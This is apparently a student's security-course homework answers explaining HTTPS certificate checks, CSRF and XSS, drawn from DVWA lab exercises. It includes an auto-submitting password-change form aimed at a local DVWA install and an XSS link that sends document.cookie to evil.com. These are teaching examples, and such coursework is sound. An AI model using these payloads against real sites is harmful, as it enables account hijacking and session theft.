 ### 6.2 In HTTPS, how does a user verify a certificate for determining the authenticity of the website it connects to?

1. Check whether the certificate expires & the path on certificate is consistent with the website we visit.
2. Check whether the certificate is issued by the CA institution it claims.
   1. Use hash function to compute signature value of the content -  $V_1$
   2. Use CA's Public Key decrypt the signature of the certificate - $V_2$

​	If $V_1==V_2$ , then the certificate is issued by the given CA institution and hasn't been modified. Take the key in certificate as server's public key $Ku_{server}$ and choose to trust this website.

### 6.3 Please provide a concrete example to showcase CSRF.

​	Take Lab3 for example.

- The victim successfully logged into `http://127.0.0.1/DVWA`, the Cookie is stored by browser.

- The victim visit a malicious website like this, the form would be automatically submitted, which would send a GET Request with Cookie in its header.
  ```html
  <body>
    <form name="F" method="get" 
          action="http://127.0.0.1/DVWA/vulnerabilities/csrf">
      <input name="password_new" value="123">
      <input name="password_new" value="123">
      <input name="Change" value="set">
    </form>
    <script>
      document.F.submit();
    </script>
  </body>
  ```

- As there is victim's Cookie attached, the server would consider this request is send by the victim himself and change the password of the victim's account.

### 6.4 Please provide two concrete examples to showcase Stored XSS and Reflective XSS.

- Stored XSS (from Lab3)
  	There is a message board displayed in the page and the backend just directly store user input into database without any filtering.

  - We can input some malicious code:
    <img src="/Users/shen/Desktop/网安实践/labs/Lab3/img/10-input.png" alt="10-input" style="zoom:38%;" />
  - And when **any other user** try to load this page, the backend would directly return this message(stored in the database), and finally be treated as 'script' but not 'text':
    ![10-canelHTTPOnly](/Users/shen/Desktop/网安实践/labs/Lab3/img/10-canelHTTPOnly.png)

- Relective XSS (from slide)

  - Attacker construct a malicious hyper-link like:
    ```html
    <a href="http://bank.com/search.php?term=
      <script>
        window.open(\"http://evil.com/?cookie=\"+document.cookie)
      </script>">
      New Arrival
    </a>
    ```
